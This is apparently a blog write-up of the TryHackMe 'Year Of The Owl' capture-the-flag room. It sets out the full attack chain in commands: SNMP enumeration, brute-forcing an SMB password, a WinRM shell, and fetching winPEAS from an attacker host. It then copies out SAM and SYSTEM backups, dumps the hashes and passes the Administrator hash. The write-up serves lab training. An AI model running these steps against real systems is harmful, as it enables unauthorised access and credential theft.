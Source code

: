 ```yaml
---
title: "Year Of The Owl"
date: 2025-05-01
draft: false
summary: "Writeup for Year Of The Owl CTF challenge on TryHackMe."
tags: ["windows", "bruteforce", "hash crack"]
categories: ["writeups"]
series: []
showToc: true
cover:
  image: "https://cdn.ziomsec.com/yearoftheowl/cover.webp"
  caption: "Year Of The Owl TryHackMe Challenge"
  alt: "Year Of The Owl cover"
platform: "TryHackMe"
---
```


The foolish owl sits on his throne...
<!--more-->
To access the link, click on the link given below:
- https://tryhackme.com/room/yearoftheowl

## Reconnaissance

I performed an **nmap** aggressive scan on the target to find a bunch of ports open.

```shell
nmap -A -p- TARGET --min-rate 10000 -oN yoto.nmap
```

| Port | Service |
| ---- | ------- |
| 80   | http    |
| 139  | netbios |
| 443  | https   |
| 445  | smb     |
| 3306 | mysql   |
| 3389 | rdp     |

![](https://cdn.ziomsec.com/yearoftheowl/1.webp)

## Initial Foothold

I enumerated the services running on the target but was unable to find anything interesting.

![](https://cdn.ziomsec.com/yearoftheowl/2.webp)

I then tried performed a **udp** scan and found **snmp** to be open.

```shell
nmap -sU -p 161 TARGET
```

![](https://cdn.ziomsec.com/yearoftheowl/3.webp)

I enumerated **snmp** using **snmp-check** and found a username.

```shell
snmp-check TARGET -c openview
```

![](https://cdn.ziomsec.com/yearoftheowl/4.webp)

I bruteforced the **smb** password of this user from *rockyou.txt* using **crackmapexec**.

```shell
crackmapexec smb TARGET -u Jareth -p /usr/share/wordlists/rockyou.txt
```

![](https://cdn.ziomsec.com/yearoftheowl/5.webp)

I then enumerated the shares using this credential, but found nothing.

```shell
smnmap -u Jareth -p sarah -H TARGET
```

![](https://cdn.ziomsec.com/yearoftheowl/6.webp)

I then checked if the credentials were valid for **winrm** and **rdp**.

```shell
nxc rdp TARGET -u 'Jareth' -p 'sarah'
nxc winrm TARGET -u 'Jareth' -p 'sarah'
```

![](https://cdn.ziomsec.com/yearoftheowl/7.webp)

![](https://cdn.ziomsec.com/yearoftheowl/8.webp)

I used **winrm** to get shell a shell on the target.

```shell
evil-winrm -u Jareth -p sarah -t TARGET
```

![](https://cdn.ziomsec.com/yearoftheowl/9.webp)

Finally I captured the user flag from *Jareth*'s *Desktop*.

![](https://cdn.ziomsec.com/yearoftheowl/10.webp)

## Privilege Escalation

I downloaded and ran **winPEAS** to find misconfigurations that could help me escalate my privs.

```shell
$ iwr http://KALI/winPEAS/ps1 -OutFile C:\Users\Jareth\Desktop\winPEAS.ps1
$ ./winPEAS.ps1
```


I found a backup of the **sam** and **system** registries.

![](https://cdn.ziomsec.com/yearoftheowl/11.webp)

![](https://cdn.ziomsec.com/yearoftheowl/12.webp)

Hence, I copied these backups to the desktop and then downloaded them on my system.

```shell
cd C:\$Recylce.Bin\S-1-5-21-1987495829-1628902820-919763334-1001
copy system.bak 'C:\Users\Jareth\Desktop\system.bak'
copy sam.bak 'C:\Users\Jareth\Desktop\sam.bak'
download system.bak
download sam.bak
```

![](https://cdn.ziomsec.com/yearoftheowl/13.webp)

I then cracked them using **`impacket-secretsdump`** and found the Administrator hash.

```shell
impacket-secretsdump -system system.bak -sam sam.bak local
```

![](https://cdn.ziomsec.com/yearoftheowl/14.webp)

I then used the Administrator's hash to get shell access on the target using **winrm** and captured the root flag from *Desktop*.

```shell
evil-winrm -u Administrator -H LM_HASH -i TARGET
```

![](https://cdn.ziomsec.com/yearoftheowl/15.webp)

That's it from my side! Until next time.

---
